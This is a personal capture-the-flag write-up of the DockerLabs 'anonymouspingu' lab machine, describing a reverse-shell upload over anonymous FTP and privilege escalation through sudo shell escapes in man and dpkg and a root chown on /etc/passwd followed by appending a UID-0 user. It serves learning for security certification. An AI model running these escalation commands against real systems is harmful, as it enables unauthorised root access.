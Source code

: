 ```yaml
---
layout: post
title: "anonymouspingu - dockerlabs"
date: 2024-10-28 06:25:00 -0400
categories:
    - posts
tags:
    - Road2OSCP
    - CTF
    - en
---
```


# anonymouspingu [dockerlabs]

- 
- We enumerate, and see HTTP and FTP with anonymous access.
- We upload a reverse shell to a directory we can see from the page, called "upload."
- We had some issues here because we tried to upload a JS reverse shell; in the end, we tested a typical one in PHP.
- We have access as the user www-data.
- `sudo -l` shows that we can execute commands as the user pingu.
- 

```bash
www-data@7e5ed41e0051:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on 7e5ed41e0051:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 7e5ed41e0051:
    (pingu) NOPASSWD: /usr/bin/man

```

Here we struggled a lot; the issue is the interpretation of `sudo -l`, which I’ll cover later, but basically, we can say that we ran `man` as pingu.

- We tested linpease, pspy64, SUID permissions, and more... we went around in circles.
- We ended up relying on the write-up.

```bash
www-data@7e5ed41e0051:/var/www/html/upload$ sudo -u pingu /usr/bin/man man

```

In this context, the result of `sudo -l` indicates that the user www-data can execute the `man` command as the user pingu without needing to enter a password (NOPASSWD). This is detailed in the line:

```
(pingu) NOPASSWD: /usr/bin/man

```

This permission means that `www-data` can execute `/usr/bin/man` with the privileges of the user `pingu` using `sudo`. Taking advantage of this, you can start a shell as the user `pingu` in the following way:

1. **Run the `man` command with sudo**: Execute the following command to open the `man` manual with `pingu`'s permissions:

```bash
sudo -u pingu /usr/bin/man man
```

Accessing a Shell from man: Once inside the man manual, you can invoke a shell by typing `!bash` or `!sh` (the `!` symbol allows you to execute commands in most man viewers). This will execute a shell with the privileges of pingu:

```
code

```

## pivot 2

[https://gtfobins.github.io/gtfobins/dpkg/](https://gtfobins.github.io/gtfobins/dpkg/)

```bash
$ sudo -l
Matching Defaults entries for pingu on 7e5ed41e0051:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 7e5ed41e0051:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
    
    pingu@7e5ed41e0051:~$ sudo -u gladys /usr/bin/dpkg -l
    !/bin/sh

```

## pivot3

```bash
$ sudo -l
Matching Defaults entries for gladys on 7e5ed41e0051:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 7e5ed41e0051:
    (root) NOPASSWD: /usr/bin/chown

```

Here we also struggled a bit; I’m relying on the write-up because I have to work.

Looking back now, we weren’t focused on understanding that we can use `chown` to change permissions; we got confused with gtfobins.

But basically, the pivot involves changing the permissions of `/etc/passwd` and then adding a user there.

```bash
gladys@7e5ed41e0051:~$ openssl passwd yourpass
$1$y9dM3R07$YVeHg7gGK1VvSBof81nEw.
gladys@7e5ed41e0051:~$ sudo /usr/bin/chown gladys. /etc/passwd
gladys@7e5ed41e0051:~$ echo 'privesc:$1$y9dM3R07$YVeHg7gGK1VvSBof81nEw.:0:0::/home/privesc:/bin/bash' >> /etc/passwd
gladys@7e5ed41e0051:~$ su privesc
Password:                                                                                                                                           
root@7e5ed41e0051:/home/gladys#         
```

Note: The confusion and what I was trying to do without sense was:

Creating a reverse shell, but of course, I didn’t take into account that `chown` changes permissions... lesson learnt.